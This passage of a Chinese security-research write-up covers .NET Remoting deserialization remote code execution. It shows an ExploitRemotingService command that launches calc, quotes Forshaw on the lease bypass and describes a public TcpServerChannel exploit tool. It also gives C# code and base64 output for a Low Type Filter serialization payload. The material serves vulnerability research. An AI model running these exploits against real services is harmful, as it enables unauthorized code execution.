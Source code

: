 ```php
ExploitRemotingService.exe -uselease -autodir tcp://127.0.0.1:12345/remoteserver exec calc
```

本地测试之后该工具并不适用于TcpServerChannel只适用于TcpChannel，当然发送raw数据还是可以的。后面翻到James Forshaw文章中提到过

```php
This entire exploit is implemented behind the _uselease_ option. It works in the same way as _useser_ but should work even if the server is running _Low Type Filter_ mode. Of course there's caveats, this only works if the server sets up a bi-direction channel, if it registers a _TcpChannel_ or _IpcChannel_ then that should be fine, but if it just sets up a _TcpServerChannel_ it might not work. Also you still need to know the URI of the server and bypass any authentication requirements.
```

八月底偶然发现cbwang505师傅写了一个通用的[EXP工具](https://github.com/cbwang505/TcpServerChannelRce)，和James Forshaw的绕过方式由很大不同。

前者利用`FileInfo/DirectoryInfo`写入程序集然后直接调用，后者通过`SortedSet`利用链加载程序集间接调用( `XamlReader.Parse` )实现RCE( 无文件落地 )，可参考 [这篇文章](https://bbs.kanxue.com/thread-282934.htm)。

为了测试效果更加直观，原工具的基础上修改了部分代码（PS：默认开启secure），可以看到执行成功后当前AppDomain的程序集多了一个FakeAsm.dll，不足的一点是在调用时需要遍历所有程序集找到这个恶意程序集，应该还有优化的空间。效果：

![Pasted image 20240923170600.png](https://shs3.b.qianxin.com/attack_forum/2024/12/attach-5017af993e6e38cfd04c03517e27cdfbdcbd3b55.png)

### 总结

现在的应用都会做一些防护措施，即使TypeFilterLevel的值为Full时也不一定能直接利用（比如配置了白名单），这时候就需要关注MBR对象的方法是否存在一些直接可调用的危险方法。

启用Low Type Filter之后呢？虽然会检查CAS和MBR，但是依然能够反序列化一些符合条件的对象，可以以序列化构造函数为跳板找到调用的危险方法。

![Pasted image 20240924142001.png](https://shs3.b.qianxin.com/attack_forum/2024/12/attach-b3e5e774e35f844e673f12ba32d3fa3f19c1feca.png)

将上面的RemoteObject1类改为实现ISerializable，RemoterServer开启Low Type Filter，构造序列化数据

```php
public static void Main(string[] args)  
{  
     // low type serial test     
     string[] s = new[] { "aaa" };  
     RemoteObject1Wrapper payload = new RemoteObject1Wrapper(s);  
     String poc = Convert.ToBase64String((byte[])Serialize(payload));  
     Console.WriteLine(poc);
}

[Serializable]  
public class RemoteObject1Wrapper : ISerializable  
{  
    private string[] _fakeList;  

    public RemoteObject1Wrapper(string[] _fakeList)  
    {  
        this._fakeList = _fakeList;  
    }  

    public void GetObjectData(SerializationInfo info, StreamingContext context)  
    {  
        info.SetType(typeof(RemotableServer.RemoteObject1));  
        info.AddValue("Id", Guid.NewGuid());  
        info.AddValue("Tag", "aaaaa");  
        Console.WriteLine(_fakeList);  
    }  
}

//输出 AAEAAAD/////AQAAAAAAAAAMAgAAAEZSZW1vdGFibGVTZXJ2ZXIsIFZlcnNpb249MS4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1udWxsBQEAAAAdUmVtb3RhYmxlU2VydmVyLlJlbW90ZU9iamVjdDECAAAAAklkA1RhZwMBC1N5c3RlbS5HdWlkAgAAAAT9////C1N5c3RlbS5HdWlkCwAAAAJfYQJfYgJfYwJfZAJfZQJfZgJfZwJfaAJfaQJfagJfawAAAAAAAAAAAAAACAcHAgICAgICAgLgVNlrimbzS73mwXYQSBjyBgQAAAAFYWFhYWEL
```